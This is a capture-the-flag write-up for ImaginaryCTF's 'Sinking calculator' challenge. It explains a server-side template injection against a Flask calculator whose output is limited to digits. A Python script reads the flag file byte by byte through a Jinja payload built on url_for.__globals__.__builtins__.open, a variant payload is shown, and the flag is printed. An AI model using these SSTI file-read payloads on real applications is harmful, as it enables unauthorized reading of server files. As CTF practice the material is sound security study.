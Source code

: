 # Sinking calculator

## Task

My computer architecture professor told me: "Every time you see a decimal, you should hate it!" I took his advice to heart, and made a calculator. But don't worry! I got rid of all the decimals. No floats here!

Flag is in the file flag.

* [app.py](https://imaginaryctf.org/r/40A3-app.py)
* [sinking calculator](https://sinking-calculator.chal.imaginaryctf.org)

## Solution

Another Server Side Template Injection to abuse. This time our
output was limited to digits and negative signs. Also we only
had 80 characters to work with. My solution was to read the file
like in the build your website, but this time in binary mode
and then one byte at a time (Since the string representation of
a byte is a number)

```python
from requests import get
import sys

expl="a}}{{url_for.__globals__.__builtins__.open(\"flag\",\"rb\").read()[cur]"

for i in range(115):
    x = chr(int(get("https://sinking-calculator.chal.imaginaryctf.org/calc?query="+expl.replace("cur", str(i))).text))
    print(x,end="")
    sys.stdout.flush()
```

Another variant would've been to convert it to a list first, which
could be done by doing

`[].__class__(url_for.__globals__.__builtins__.open("flag","rb").read())`

then we get all the bytes at once, but without a separator, so
we'd need to work a bit to get the flag, but it's doable because
the only values below 100 would be in the range of 95 to 99.

and we get `ictf{this_flag_has_three_interesting_properties_it_has_no_numbers_or_dashes_it_is_quite_long_and_it_is_quite_scary}`
